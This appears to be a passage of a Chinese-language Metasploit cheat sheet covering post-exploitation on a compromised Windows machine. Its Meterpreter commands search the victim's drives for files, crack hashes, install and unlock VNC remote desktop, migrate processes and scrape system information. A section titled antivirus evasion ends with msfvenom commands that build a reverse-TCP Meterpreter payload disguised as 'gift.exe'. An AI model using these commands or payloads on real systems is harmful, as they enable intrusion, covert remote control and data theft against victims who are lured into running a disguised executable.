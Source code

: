 ```
meterpreter > search -h
Usage: search [-d dir] [-r recurse] -f pattern
Search for files.

OPTIONS:

    -d   The directory/drive to begin searching from. Leave empty to search all drives. (Default: )
    -f   The file pattern glob to search for. (e.g. *secret*.doc?)
    -h        Help Banner.
    -r   Recursivly search sub directories. (Default: true)
```

example:
```
meterpreter > search -f *.jpg
meterpreter > search -d c:\\documents\ and\ settings\\administrator\\desktop\\ -f *.pdf
```

### 哈希破解（John）❖/🐧

`John The Ripper` 非常好哈希破解工具，使用 `auxiliary/analyze/jtr_crack_fast` 模块

### VNC 远程桌面 ❖

```shell
metapreter> run vnc
# 在远程机器上安装VNC
metapreter> run screen
# 开启VNC桌面
metapreter> run screen_unlock
# 解锁桌面
```

### 迁移进程 ❖

```shell
meterpreter> run post/windows/manage/migrate
```

 ### 系统信息

```
meterpreter> run scraper
```

## 免杀技术

### 自定义Payload

```shell
# 查看该Payload配置
msfvenom -p windows/meterpreter_reverse_tcp --payload-options

msfvenom -p windows/meterpreter_reverse_tcp LHOST=xxx LPORT=xxx -f exe -o gift.exe
```

